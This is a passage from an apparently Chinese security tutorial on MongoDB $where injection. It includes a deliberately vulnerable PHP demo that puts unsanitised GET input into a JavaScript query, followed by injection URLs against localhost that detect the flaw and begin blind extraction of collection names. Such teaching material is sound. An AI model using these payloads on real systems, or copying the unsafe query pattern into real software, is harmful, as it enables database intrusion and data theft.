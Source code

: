 放demo：

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->news; //选择集合
$news = $_GET['news'];
$function = "function() {if(this.news == '$news') return true}";
echo $function;
$result = $coll->find(array('$where'=>$function));
if ($result->count()>0) {
    echo '该新闻存在';
}else{
    echo '该新闻不存在';
}
?>

```

为了测试，我建立了两个集合，一个是news集合，查询过程中存在注入。另一个是user集合，我们要注入得到其中的数据。

代码中的this.news指的就是表中的news栏（字段），上面的代码翻译成sql语句就是：

> select * from news where news='$news'

该demo的注入方式可以参考如下：

> http://127.0.0.1/3.php?news=test

返回正常

> http://127.0.0.1/3.php?news=test'

返回错误

> http://127.0.0.1/3.php?news=test'%26%26'1'=='1

返回正常

> http://127.0.0.1/3.php?news=test'%26%26'1'=='2

返回错误

至此检测出注入，开始获取数据。

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length>0%26%26'1'=='1

返回正常，集合数大于0

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length==5%26%26'1'=='1

返回正常，集合数等于5

![enter image description here](http://drops.javaweb.org/uploads/images/582a61b5b4d17102929694a7930e5c3d45f08c0a.jpg)

获取集合名称

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0].length==6%26%26'1'=='1

返回正常，第一个集合名称长度为6
